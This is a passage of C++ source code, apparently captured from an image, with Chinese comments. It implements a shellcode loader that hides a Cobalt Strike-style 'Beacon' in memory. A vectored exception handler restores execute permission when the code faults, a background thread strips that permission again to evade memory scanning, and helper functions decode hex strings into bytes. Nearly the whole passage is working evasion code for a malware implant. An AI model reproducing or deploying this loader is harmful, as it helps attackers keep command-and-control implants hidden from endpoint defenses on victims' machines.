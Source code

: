 ```cpp
	return false;
}

// 定义VEH的异常处理函数
LONG NTAPI FirstVectExcepHandler(PEXCEPTION_POINTERS pExcepInfo)
{
	printf("FirstVectExcepHandler\n");
	printf("The Exception Code is :%x\n", pExcepInfo->ExceptionRecord->ExceptionCode);
	printf("The Thread Address is :%llx\n", pExcepInfo->ContextRecord->Rip);		   
	if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(pExcepInfo->ContextRecord->Rip))
	{
		printf("Modify the memory attribute to executable\n");
		VirtualProtect(Beacon_address, Beacon_data_len, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
		return EXCEPTION_CONTINUE_EXECUTION;
	}
	return EXCEPTION_CONTINUE_SEARCH;
}

// 线程函数，用于将Beacon的内存属性设置为可读写，即去掉可执行权限
DWORD WINAPI Beacon_set_Memory_attributes(LPVOID lpParameter)
{
	while (true)
	{
		WaitForSingleObject(hEvent, INFINITE);
		printf("Set Beacon memory attribute unexecutable\n");
		VirtualProtect(Beacon_address, Beacon_data_len, PAGE_READWRITE, &Beacon_Memory_address_flOldProtect);
		ResetEvent(hEvent);
	}
	return 0;
}

// 将十六进制中的单个字符转换为相应的整数值
unsigned char hexCharToByte(char character) {
	if (character >= '0' && character <= '9') {
		return character - '0';
	}
	if (character >= 'a' && character <= 'f') {
		return character - 'a' + 10;
	}
	if (character >= 'A' && character <= 'F') {
		return character - 'A' + 10;
	}
	return 0;
}

// 将十六进制字符串转换成字节型数组
void hexStringToBytes(const std::string& hexString, unsigned char* byteArray, int byteArraySize) {
	for (int i = 0; i < hexString.length(); i += 2) {
		byteArray[i / 2] = hexCharToByte(hexString[i]) * 16 + hexCharToByte(hexString[i + 1]);
	}
}


int main()
{	
	
	hEvent = CreateEvent(NULL, TRUE, false, NULL); // 创建事件(一开始无信号)

	AddVectoredExceptionHandler(1, &FirstVectExcepHandler); // 添加异常处理函数
	
```